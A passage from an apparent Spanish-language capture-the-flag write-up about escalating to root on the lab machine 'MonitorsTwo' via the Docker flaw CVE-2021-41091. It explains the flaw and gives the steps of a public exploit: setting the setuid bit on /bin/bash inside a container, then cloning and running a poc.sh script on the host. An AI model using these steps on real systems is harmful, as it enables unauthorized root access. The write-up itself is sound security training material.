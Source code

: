 ## Escalación de privilegios

---

Verificamos la versión de Docker que se encuentra instalada.

```bash
marcus@monitorstwo:~$ docker --version
Docker version 20.10.5+dfsg1, build 55c4c88
```

Al realizar una búsqueda rápida en google nos encontramos con la vulnerabilidad [CVE-2021-41091](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41091).

![vuln2](vuln2.png)

CVE-2021-41091 es una falla en **Moby (Docker Engine)** que permite a los usuarios de Linux sin privilegios atravesar y ejecutar programas dentro del directorio de datos (generalmente ubicado en `/var/lib/docker`) debido a permisos restringidos incorrectamente. Esta vulnerabilidad está presente cuando los contenedores contienen programas ejecutables con permisos extendidos, como `setuid`. Los usuarios de Linux sin privilegios pueden descubrir y ejecutar esos programas, así como modificar archivos si el `UID` del usuario en el host coincide con el propietario del archivo o grupo dentro del contenedor.

En este [exploit](https://github.com/UncleJ4ck/CVE-2021-41091), se detallan los siguientes pasos para la explotación:

1. Conéctese al contenedor Docker alojado en su máquina y obtenga acceso root.
2. Dentro del contenedor, establezca el bit `setuid` en `/bin/bash` con el siguiente comando: `chmod u+s /bin/bash`
3. En el sistema host, ejecute el script de explotación proporcionado (poc.sh) clonando el repositorio y ejecutando el script de la siguiente manera:
    
    ```bash
    git clone https://github.com/UncleJ4ck/CVE-2021-41091
    cd CVE-2021-41091
    chmod +x ./poc.sh
    ./poc.sh
    ```
    
4. El script le pedirá que confirme si configuró correctamente el bit setuid en `/bin/bash` en el contenedor Docker. Si la respuesta es "sí", el script comprobará si el host es vulnerable e iterará sobre los sistemas de archivos overlay2 disponibles. Si el sistema es realmente vulnerable, el script intentará obtener acceso root generando un shell en la ruta vulnerable (el sistema de archivos del contenedor Docker donde ejecutó el comando `setuid` en `/bin/bash`).

En este caso, dado que ya hemos completado el primer paso, procedemos a establecer el bit `setuid` en `/bin/bash`.

```bash
root@50bca5e748b0:/# chmod u+s /bin/bash
root@50bca5e748b0:/# ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Compartimos el exploit desde nuestra máquina atacante al objetivo.
